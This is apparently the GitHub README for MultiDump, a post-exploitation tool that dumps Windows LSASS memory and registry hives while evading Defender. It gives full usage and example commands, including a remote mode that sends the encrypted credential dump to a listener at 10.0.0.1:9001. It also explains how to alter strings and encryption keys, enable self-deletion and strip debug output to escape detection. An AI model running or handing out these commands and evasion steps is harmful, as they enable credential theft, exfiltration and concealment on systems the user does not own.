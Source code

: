 ## MultiDump

MultiDump is a post-exploitation tool written in C for dumping and extracting LSASS memory discreetly, without triggering Defender alerts, with a handler written in Python.

![](multidump-defender.gif)

Blog post: https://xreous.io/posts/multidump

MultiDump supports LSASS dump via `ProcDump.exe` or `comsvc.dll`, it offers two modes: a local mode that encrypts and stores the dump file locally, and a remote mode that sends the dump to a handler for decryption and analysis.

## Usage

```powershell
    __  __       _ _   _ _____
   |  \/  |_   _| | |_(_)  __ \ _   _ _ __ ___  _ __
   | |\/| | | | | | __| | |  | | | | | '_ ` _ \| '_ \
   | |  | | |_| | | |_| | |__| | |_| | | | | | | |_) |
   |_|  |_|\__,_|_|\__|_|_____/ \__,_|_| |_| |_| .__/
                                               |_|

Usage:  MultiDump.exe [-p <ProcDumpPath>] [-l <LocalDumpPath> | -r <RemoteHandlerAddr>] [--procdump] [-v]

-p              Path to save procdump.exe, use full path. Default to temp directory
-l              Path to save encrypted dump file, use full path. Default to current directory
-r              Set ip:port to connect to a remote handler
--procdump      Writes procdump to disk and use it to dump LSASS
--nodump        Disable LSASS dumping
--reg           Dump SAM, SECURITY and SYSTEM hives
--delay         Increase interval between connections to for slower network speeds
-v              Enable verbose mode

MultiDump defaults in local mode using comsvcs.dll and saves the encrypted dump in the current directory.
Examples:
        MultiDump.exe -l C:\Users\Public\lsass.dmp -v
        MultiDump.exe --procdump -p C:\Tools\procdump.exe -r 192.168.1.100:5000
```

```bash
usage: MultiDumpHandler.py [-h] [-r REMOTE] [-l LOCAL] [--sam SAM] [--security SECURITY] [--system SYSTEM] [-k KEY] [--override-ip OVERRIDE_IP]

Handler for MultiDump

options:
  -h, --help            show this help message and exit
  -r REMOTE, --remote REMOTE
                        Port to receive remote dump file
  -l LOCAL, --local LOCAL
                        Local dump file, key needed to decrypt
  --sam SAM             Local SAM save, key needed to decrypt
  --security SECURITY   Local SECURITY save, key needed to decrypt
  --system SYSTEM       Local SYSTEM save, key needed to decrypt
  -k KEY, --key KEY     Key to decrypt local file
  --override-ip OVERRIDE_IP
                        Manually specify the IP address for key generation in remote mode, for proxied connection
```

As with all LSASS related tools, Administrator/SeDebugPrivilege privileges are required.

The handler depends on [Pypykatz](https://github.com/skelsec/pypykatz) to parse the LSASS dump, and [impacket](https://github.com/fortra/impacket) to parse the registry saves. They should be installed in your environment. If you see the error `All detection methods failed`, it's likely the Pypykatz version is outdated.

By default, MultiDump uses the `Comsvc.dll` method and saves the encrypted dump in the current directory.

```powershell
MultiDump.exe
...
[i] Local Mode Selected. Writing Encrypted Dump File to Disk...
[i] C:\Users\MalTest\Desktop\dciqjp.dat Written to Disk.
[i] Key: 91ea54633cd31cc23eb3089928e9cd5af396d35ee8f738d8bdf2180801ee0cb1bae8f0cc4cc3ea7e9ce0a74876efe87e2c053efa80ee1111c4c4e7c640c0e33e
```

```bash
./MultiDumpHandler.py -l dciqjp.dat -k 91ea54633cd31cc23eb3089928e9cd5af396d35ee8f738d8bdf2180801ee0cb1bae8f0cc4cc3ea7e9ce0a74876efe87e2c053efa80ee1111c4c4e7c640c0e33e
```

If `--procdump` is used, `ProcDump.exe` will be written to disk to dump LSASS.

In cmd, `--procdump` _must_ be used, or it will fail per [#5](https://github.com/Xre0uS/MultiDump/issues/5), recommend to always use powershell if possible.

In remote mode, MultiDump connects to the handler's listener.

```bash
./MultiDumpHandler.py -r 9001
[i] Listening on port 9001 for encrypted key...
```

```powershell
MultiDump.exe -r 10.0.0.1:9001
```

The key is encrypted with the handler's IP and port. When MultiDump connects through a proxy, the handler should use the `--override-ip` option to manually specify the IP address for key generation in remote mode, ensuring decryption works correctly by matching the decryption IP with the expected IP set in MultiDump `-r`.

An additional option to dump the `SAM`, `SECURITY` and `SYSTEM` hives are available with `--reg`, the decryption process is the same as LSASS dumps. This is more of a convenience feature to make post exploit information gathering easier.

### Building MultiDump

Open in Visual Studio, build in **Release** mode.

### Customising MultiDump

It is recommended to customise the binary before compiling, such as changing the static strings or the RC4 key used to encrypt them, to do so, another Visual Studio project `EncryptionHelper`, is included. Simply change the key or strings and the output of the compiled `EncryptionHelper.exe` can be pasted into `MultiDump.c` and `Common.h`.

Self deletion can be toggled by uncommenting the following line in `Common.h`:

```c
#define SELF_DELETION
```

To further evade string analysis, most of the output messages can be excluded from compiling by commenting the following line in `Debug.h`:

```c
//#define DEBUG
```

---

MultiDump might get detected on Windows 10 22H2 (19045) (sort of), and I have implemented a fix for it (sort of), the investigation and implementation deserves a blog post itself: https://xre0us.io/posts/saving-lsass-from-defender/

## Credits

- Some techniques used learnt from [MalDev Academy](https://maldevacademy.com), it is an awesome course, highly recommended
- Inspired by [proc_noprocdump](https://github.com/djackreuter/proc_noprocdump)
- Code to further process LSASS dump from [lsassy](https://github.com/Hackndo/lsassy)
- Testing and suggestions from [ballro](https://github.com/ballro)
- Testing and suggestions from [DisplayGFX](https://github.com/DisplayGFX), [nthdeg](https://github.com/nthdeg) and silentbee
